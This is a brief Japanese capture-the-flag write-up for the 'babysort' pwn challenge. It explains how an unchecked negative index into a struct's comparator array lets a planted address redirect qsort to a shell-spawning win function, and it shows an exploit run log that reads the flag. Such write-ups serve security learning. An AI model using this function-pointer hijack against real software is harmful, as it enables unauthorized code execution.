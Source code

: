 # babysort

## solution

win関数というsystem("/bin/sh")を実行する関数があるためqsort第四引数にそれを指定して呼び出す。

SortExperimentという構造体が定義されており以下のようになっている

```C
typedef int (*SORTFUNC)(const void*, const void*);

typedef struct {
  long elm[5];
  SORTFUNC cmp[2];
} SortExperiment;
```

qsortは
```C
qsort(se.elm, 5, sizeof(long), se.cmp[i]);```

のようにして実行されている。ここでiはユーザーが入力できる値であり、値のチェックも行われていない。
iに負数を指定してやると、elmを参照することができるのでelmにwinのアドレスを入力して、入力したインデックスに合うようにiの値を設定するとwin関数を呼び出すことができる。

```
$ python solve.py
[*] '/home/vagrant/interkosen2020/babysort/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './chall': pid 29496
[+] Opening connection to pwn.kosenctf.com on port 9001: Done
[*] Switching to interactive mode
[0] Ascending / [1] Descending: $ -1
$ ls
chall
flag-165fa1768a33599b04fbb4f7a05d0d26.txt
redir.sh
$ cat flag-165fa1768a33599b04fbb4f7a05d0d26.txt
KosenCTF{f4k3_p01nt3r_l34ds_u_2_w1n}
```
